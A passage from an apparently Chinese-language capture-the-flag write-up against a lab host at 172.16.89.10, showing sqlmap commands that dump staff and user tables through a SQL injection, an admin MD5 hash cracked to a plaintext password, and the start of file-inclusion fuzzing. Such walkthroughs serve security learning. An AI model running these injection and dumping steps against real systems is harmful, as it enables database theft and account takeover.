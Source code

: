 ```
Initiating NSE at 22:39
Completed NSE at 22:39, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

## 0x03 渗透

使用浏览器访问http://172.16.89.10，发现一个搜索和登陆功能，先试试搜索功能有没有sql注入，使用burp抓搜索包

![image-20211007224804392](/assets/img/image-20211007224804392.png)

将请求内容保存到request.txt中，使用sqlmap进行扫描

```
sqlmap -r request.txt --dbs
```

发现存在sql注入，进一步扫描

```
sqlmap -r request.txt -D Staff --tables
sqlmap -r request.txt -D Staff -T Users --dump
sqlmap -r request.txt -D Staff -T StaffDetails --dump

sqlmap -r request.txt -D users --tables
sqlmap -r request.txt -D Staff -T UserDetails --dump
```

UserDetails表下发现一些用户名密码

![image-20211007231327154](/assets/img/image-20211007231327154.png)

StaffDetails表下发现员工信息

![image-20211007231017283](/assets/img/image-20211007231017283.png)

Users表下发现admin账号和密码hash

```
admin：856f5de590ef37314e7c3bdf6f8a66dc
```

似乎是md5，进行md5解密，得到密码*transorbital1*

![image-20211007225413206](/assets/img/image-20211007225413206.png)

使用发现的账号密码登陆

![image-20211007225528688](/assets/img/image-20211007225528688.png)

有一条错误信息"File does not exist"，猜测存在文件包含漏洞，对请求参数和值进行模糊测试
